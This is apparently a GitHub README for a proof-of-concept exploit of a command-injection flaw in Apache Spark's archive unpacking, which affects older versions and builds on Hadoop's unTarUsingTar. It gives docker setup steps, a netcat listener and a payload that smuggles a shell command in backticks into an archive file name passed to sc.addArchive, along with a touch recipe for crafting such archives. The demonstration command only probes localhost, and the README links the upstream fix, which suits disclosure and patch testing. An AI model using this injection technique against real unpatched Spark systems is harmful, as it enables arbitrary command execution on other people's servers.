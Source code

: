 # Spark Shell Cmd Injection Vulnearability

## Introduction

The [unTarUsingTar](https://github.com/apache/hadoop/blob/trunk/hadoop-common-project/hadoop-common/src/main/java/org/apache/hadoop/fs/FileUtil.java#L904) method of hadoop was used in spark to extract the archived file in `core/src/main/scala/org/apache/spark/util/Utils#unpack`. In no `windows` platform, it may leading command injection.

Impact version:

```
Spark < 3.1.3
Spark < 3.2.2
```

## Usage

Start the container

```bash
docker-compse run spark
```

it will open a `spark-shell`,

open another shell by attach to the container with `root` and run 

```bash
nc -lvvp 9000
```

input the following content to `spark-shell`

```bash
sc.addArchive("/opt/`nc -z -w 2 localhost 9000`&&poc.tar")
```

Or you can create yourself archive file and copy it to container with

```
touch \`{command(need escapation)}\`\&\&poc.tar
# exmaple
# touch \`nc\ \-z\ \-w\ 2\ localhost\ 9000\`\&\&poc.tar
```

and you will found the command has been exeuted.

![poc_docker](images/poc_docker.png)

A local screenshot of poc.

![poc](images/poc.jpg)

## Reference

1. https://github.com/apache/spark/commit/057c051285ec32c665fb458d0670c1c16ba536b2
2. https://github.com/apache/spark/tree/057c051285ec32c665fb458d0670c1c16ba536b2
3. https://github.com/apache/spark/pull/35946